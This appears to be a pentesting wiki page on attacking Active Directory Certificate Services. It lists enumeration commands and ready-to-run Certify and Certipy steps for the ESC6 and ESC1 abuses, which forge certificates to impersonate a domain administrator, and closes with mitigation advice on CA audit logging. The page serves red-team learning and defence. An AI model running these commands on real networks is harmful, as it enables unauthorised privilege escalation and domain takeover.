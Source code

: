 # AD CS

Active Directory Certificate Services (AD CS) is a feature of Active Directory that allows a desginated server to issue certificates. This assists in helping environments leverage and deploy the security advantages of using certificate-based authentication.

For a way more well explained blog on exploiting AD CS, I highly recommend checking out [SpecterOps' article](https://posts.specterops.io/certified-pre-owned-d95910965cd2).&#x20;

Additionally, notes from the [Relaying section](relaying/) are essential to understanding the attack chain of AD CS.

## Enumerate AD CS

If we get a hit from these methods then we can browse to the host identified with the  following URL: `http://localhost/certsrv/`

### Certutil

Dump and display certification authority information with Certutil.exe. This utility can be used to quickly identify if there is a certificate authority on the domain for AD CS attacks:

```
Certutil -ping
Certutil.exe -tcainfo
```

### CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password -M adcs
```

### Certify

When dealing with AD CS, [Ceritfy](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) are going to be your best friends.&#x20;

```bash
# Identify and list vulnerable templates with Certipy
certipy find -u $username -p $password -dc-ip $dcip -vulnerable

# Identify and list vulnerable templates with Certify
Certify.exe find /vulnerable
```

## Exploitation

The following section builds off of several available repositories that are referenced at the bottom of this page. There are multiple ways to exploit vulnerable certificate templates so I highly recommend searching through red team wikis and blogs to find one that may be specific for your use case.&#x20;

#### EDITF\_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this attribute is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

The above quote from Microsoft in attacker-speak means that we can then enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll. This would allow the attacker to obtain a certificate that then allows them to authenticate as any user/machine on the domain.&#x20;

{% hint style="info" %}
This setting is disabled by default.&#x20;
{% endhint %}

This setting, like many others in this section can be discovered and exploited #through using [Certify](https://github.com/GhostPack/Certify).&#x20;

```bash
# Find all enabled certificate templates:
Certify.exe find

# Abuse a cerificate with this setting configured 
Certify.exe request /ca:CA01.oasis.local\CorpCA /template:User /altname:$impersonateuser
```

### Exploiting ESC1

```bash
## https://github.com/ly4k/Certipy
### It should be noted that information such as the CA, target, and template name can all be identified from running the certipy find command.

pip3 install certipy-ad
certipy find -u parz@oasis.local -p $password -dc-ip $dcip
certipy req -username parz@oasis.local -password $password -ca $ca -target $cahost -template $templatename -upn administrator@oasis.local -dns dc.oasis.local
certipy auth -pfx administrator_dc.pfx -dc-ip $dcip
```

## Mitigation

One of the easiest ways to assist in detecting exploitation of AD CS is to enable Certificate Authority logging. By default, AD CS does not enable logging by default, which in the case of an incident will prevent an organization from responding to an incident. This can be easily remediated:

```bash
# Enable CA Logging
certutil.exe -setreg CA\AuditFilter 127

```

Additionally, it is recommended to perform regular auditing with tools such as PSPKIAudit to detect vulnerable certificate templates:

{% embed url="https://github.com/GhostPack/PSPKIAudit" %}

## References

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates" %}

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn786426(v=ws.11)" %}

{% embed url="https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/" %}
